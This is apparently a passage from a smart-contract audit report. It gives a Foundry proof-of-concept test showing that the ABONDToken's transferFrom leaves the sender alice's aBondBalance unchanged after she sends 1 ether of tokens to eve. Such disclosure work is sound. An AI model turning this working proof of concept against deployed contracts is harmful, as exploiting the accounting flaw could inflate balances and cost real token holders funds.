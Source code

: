  


### PoC

Two PoCs are prepared to demonstrate the impacts.

#### PoC for 2nd Impact

The following PoC demonstrates the case `alice`'s `aBondBalance` not decreasing after transferring 1 eth to `eve`. Use forge test command to run it.

```solidity
pragma solidity 0.8.22;

import {Test, console2} from "forge-std/Test.sol";
import {ABONDToken} from "../../contracts/Token/Abond_Token.sol";

contract AbondTokenTest is Test {
    ABONDToken abond;

    address alice = makeAddr("alice");
    address eve = makeAddr("eve");

    function setUp() external {
        abond = new ABONDToken();
        abond.initialize();
        abond.setBorrowingContract(address(this));
        abond.setAbondData(alice, uint64(1), uint128(1e18), uint128(1));
        abond.mint(alice, uint64(1), 1 ether);
    }

    function test_poc_invalid_state() external {
        console2.log("\nbefore transfer alice state");
        _log_state(alice);
        console2.log("\nbefore transfer eve state");
        _log_state(eve);

        uint256 transferAmount = 1 ether;
        vm.startPrank(alice);
        abond.approve(address(this), transferAmount);
        vm.stopPrank();

        abond.transferFrom(alice, eve, transferAmount);

        console2.log("\nafter transfer alice state");
        _log_state(alice);
        console2.log("\nafter transfer eve state");
        _log_state(eve);
    }

    function _log_state(address user) internal {
        (, uint128 ethBacked, uint128 aBondBalance) = abond.userStates(user);
        console2.log("> ethBacked", ethBacked);
        console2.log("> aBondBalance", aBondBalance);
    }
}

```
